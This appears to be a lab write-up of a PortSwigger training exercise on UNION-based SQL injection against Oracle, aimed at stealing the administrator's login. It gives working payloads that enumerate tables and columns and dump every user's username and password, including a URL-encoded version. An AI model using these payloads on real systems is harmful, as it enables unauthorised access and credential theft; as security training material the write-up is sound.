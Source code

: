 # Lab 10: SQL injection attack, listing the database contents on Oracle

This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the administrator user.

## Solution
> Manual exploitation
1. Use Burp Suite to intercept and modify the request that sets the product category filter.
2. Determine the number of columns that are being returned by the query and which columns contain text data. Verify that the query is returning two columns, both of which contain text, using a payload like the following in the `category` parameter: ```'+UNION+SELECT+'abc','def'+FROM+dual--```
3. Use the following payload to retrieve the list of tables in the database: ```'+UNION+SELECT+table_name,NULL+FROM+all_tables--```
4. Find the name of the table containing user credentials.
5. Use the following payload (replacing the table name) to retrieve the details of the columns in the table: ```'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_ABCDEF'--```
6. Find the names of the columns containing usernames and passwords.
7. Use the following payload (replacing the table and column names) to retrieve the usernames and passwords for all users: ```'+UNION+SELECT+USERNAME_ABCDEF,+PASSWORD_ABCDEF+FROM+USERS_ABCDEF--```
8. Find the password for the administrator user, and use it to log in.

> Scripting the attack: [Script](https://github.com/darshannn10/PortSwiggers-Web-Sec-Academy/blob/main/SQL-Injection/lab-10/sqli-lab-10.py)

## Payload
Identifying the no. of columns: `'+UNION+SELECT+'a','a'+FROM+dual--`

To get Table names:`' UNION SELECT table_name,NULL FROM all_tables--`

> Table name: `USERS_YOPQVR`

To get column names: `' UNION SELECT column_name,NULL FROM all_tab_columns WHERE table_name='USERS_YOPQVR'--`

> Column name: `USERNAME_IZSVDC` & `PASSWORD_EEWPRQ` & 

Final Normal Payload: `' UNION SELECT USERNAME_IZSVDC, PASSWORD_EEWPRQ FROM USERS_YOPQVR--`

Final URL-Encoded Payload: `%27%20UNION%20SELECT%20USERNAME_IZSVDC,%20PASSWORD_EEWPRQ%20FROM%20USERS_YOPQVR--`
## Video Solution:
1. Manual Exploit: [Rana Khalil's Youtube Video](https://youtu.be/ZbwIbIq5-eE)
2. Automating the attack: [Rana Khalil's Youtube Video](https://www.youtube.com/watch?v=53mjCmPrsDg&list=PLuyTk2_mYISLaZC4fVqDuW_hOk0dd5rlf&index=11)
